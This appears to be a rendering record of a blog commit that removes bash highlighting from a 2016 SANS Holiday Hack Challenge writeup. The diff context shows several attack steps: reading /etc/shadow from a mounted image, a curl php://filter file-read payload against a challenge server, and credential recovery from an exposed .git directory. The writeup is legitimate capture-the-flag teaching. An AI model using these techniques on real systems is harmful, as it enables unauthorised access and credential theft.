

Before and after one commit to Mercurii7/mercurii7.github.com, a Jekyll site: the page built from _posts/2017-01-04-2016-sans-holiday-hack-challenge-writeup.md, in a window 1280 px wide and 1400 px high, scrolled down 1733 px. Shown: the whole window, without its empty margins (238-1041 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Remove bash highlighting as they were not rendering properly in git pages

````diff
--- a/_posts/2017-01-04-2016-sans-holiday-hack-challenge-writeup.md
+++ b/_posts/2017-01-04-2016-sans-holiday-hack-challenge-writeup.md
@@ -28,7 +28,7 @@ An APK file is inside the ZIP file and it is password protected. Using the secre
 ### 3) What username and password are embedded in the APK file?
 
 Using apktool, the APK was decompiled. A simple grep of all .smali files reveals a username and password in the b.smali and SplashScreen.smali
-```bash
+```
 $ grep 'password' *
 b.smali:    const-string v1, "password"
 Login$3$1$1.smali:    const-string v1, "We\'ve sent you an email to reset your password!"
@@ -67,7 +67,7 @@ The file was found in SantaGram_4.2/res/raw
 ### 5) What is the password for the "cranpi" account on the Cranberry Pi system?
 
 Gather information on the partitions available in the cranbian image.
-```bash
+```
 root@6333f0f60bf6:~/hhc$ fdisk -l cranbian-jessie.img
 
 Disk cranbian-jessie.img: 1.3 GiB, 1389363200 bytes, 2713600 sectors
@@ -83,7 +83,7 @@ cranbian-jessie.img2      137216 2713599 2576384  1.2G 83 Linux
 ```
 
 Extract the second partition using dd to obtain an ext4 image and mount it. fsck was required before it would let me mount the image.
-```bash
+```
 $ dd bs=70254592 if=cranbian-jessie.img of=cranbian-ext skip=1
 $ losetup /dev/loop2 cranbian-ext
 $ fsck /dev/loop2
@@ -92,7 +92,7 @@ $ mount /dev/loop2 /mnt/
 
 Grab the /etc/passwd and /etc/shadow file.
 
-```bash
+```
 root@6587a3e5f040:/mnt/etc# cat passwd
 root:x:0:0:root:/root:/bin/bash
 daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
@@ -179,7 +179,7 @@ Santa was found in DFER in 1978 (The terminal door with the wumpus game, after g
 
 Scratchy was a tricky terminal. The trick lies in the commands `sudo` and `strings`.
 
-```bash
+```
 scratchy@cbbeb93495e5:/$ sudo -l
 sudo: unable to resolve host cbbeb93495e5
 Matching Defaults entries for scratchy on cbbeb93495e5:
@@ -191,7 +191,7 @@ User scratchy may run the following commands on cbbeb93495e5:
 ```
 
 Part 1:
-```bash
+```
 scratchy@8956a10a16f1:/$ sudo -u itchy strings /out.pcap
 ...snip...
 <input type="hidden" name="part1" value="santasli" />
@@ -199,7 +199,7 @@ scratchy@8956a10a16f1:/$ sudo -u itchy strings /out.pcap
 ```
 
 Part 2:
-```bash
+```
 scratchy@b5d698c4390e:/$ sudo -u itchy strings -e l /out.pcap
 sudo: unable to resolve host b5d698c4390e
 part2:ttlehelper
@@ -246,7 +246,7 @@ Key: LOOK AT THE PRETTY LIGHTS
 
 A simple `find` will locate the key for the door.
 
-```bash
+```
 elf@a7ba94688298:~$ find . -type f
 ./.bashrc
 ./.doormat/. / /\/\\/Don't Look Here!/You are persistent, aren't you?/'/key_for_the_door.txt
@@ -270,7 +270,7 @@ Key: open_sesame
 **Cheat:**
 
 1. Hex dump wumpus to extract binary to my own machine
-```bash
+```
 $ od -A x -t x1 -v wumpus
 ```
 
@@ -374,7 +374,7 @@ for room_num in range(1,255):
 ```
 
 Fed the generated steps into the game:
-```bash
+```
 $ python steps_generator.py
 $ ./dungeon < steps_generator.py
 ```
@@ -504,7 +504,7 @@ Response:
 ```
 
 Now just download the mp3 file:
-```bash
+```
 $ wget http://dev.northpolewonderland.com/debug-20161224235959-0.mp3
 ```
 
@@ -549,7 +549,7 @@ Content-Length: 106
 
 Or in curl:
 
-```bash
+```
 curl -s -k -X $'POST' -H $'Content-Type: application/json' -H $'User-Agent: Dalvik/2.1.0 (Linux; U; Android 6.0.1; GT-N7100 Build/MOB30Z)' --data-binary $'{\"operation\":\"ReadCrashDump\",\"data\":{\"crashdump\":\"php://filter/convert.base64-encode/resource=exception\"}}' $'http://ex.northpolewonderland.com/exception.php' | base64 -d
 ```
 
@@ -569,7 +569,7 @@ if(strcasecmp($_SERVER['REQUEST_METHOD'], 'POST') != 0){
 ```
 
 Download the audio file:
-```bash
+```
 $ wget http://ex.northpolewonderland.com/discombobulated-audio-6-XyzE3N9YqKNH.mp3
 ```
 
@@ -582,7 +582,7 @@ Found `.git` directory: https://analytics.northpolewonderland.com/.git/ after ru
 Install [DVCS-Pillage](https://github.com/evilpacket/DVCS-Pillage) and clone the `.git` directory.
 
 Found 'administrator' credentials:
-```bash
+```
 $ git log
 commit 62547860f9a6e0f3a3bdfd3f9b14fea3ac7f7c31
 Author: me <me@example.org>
@@ -591,7 +591,7 @@ Date:   Mon Nov 21 21:15:08 2016 -0800
 	Fix database dump
 ```
 
-```bash
+```
 $ git diff-tree -p 62547860f9a6e0f3a3bdfd3f9b14fea3ac7f7c31
 ...snip...
 -INSERT INTO `users` VALUES (0,'administrator','KeepWatchingTheSkies'),(1,'guest','busyllama67');
````
